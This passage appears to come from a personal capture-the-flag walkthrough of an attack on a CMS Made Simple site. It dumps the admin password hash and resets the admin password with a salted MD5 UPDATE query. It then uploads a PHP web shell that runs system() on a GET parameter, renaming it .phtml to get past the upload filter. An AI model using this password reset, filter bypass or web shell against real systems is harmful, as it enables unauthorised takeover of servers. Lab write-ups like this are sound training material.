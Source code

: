 ```
|       1 | admin    | 59f9ba27528694d9b3493dfde7709e70 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |                               
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+                               
1 row in set (0.255 sec)          
                                         
MySQL [cmsms_db]>  
```
we got the password of the admin login, let's try to crack the hash.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9425398e-e679-4a00-a5d5-d3fe895b4c7e)

tried cracking the hash, did not work... since we logged in as root, 🤔 why don't we update the password.

```
MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'password'))) where username = 'admin'
    -> ;
Query OK, 1 row affected (0.221 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [cmsms_db]> 
```
updated the password. let's try login with the newly updated password. `admin:password`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c036b95f-a6ae-4780-883e-7c802863d8c1)

Boom!!! we logged in... Let's get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d31049bd-9619-4c43-9b81-4ec0fee30841)

noticed a file upload function, tried to upload a `.php` file, it failed, so i change it to `.phtml` and boom it worked.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
content of the `shell.phtml` file... let's check if we got RCE
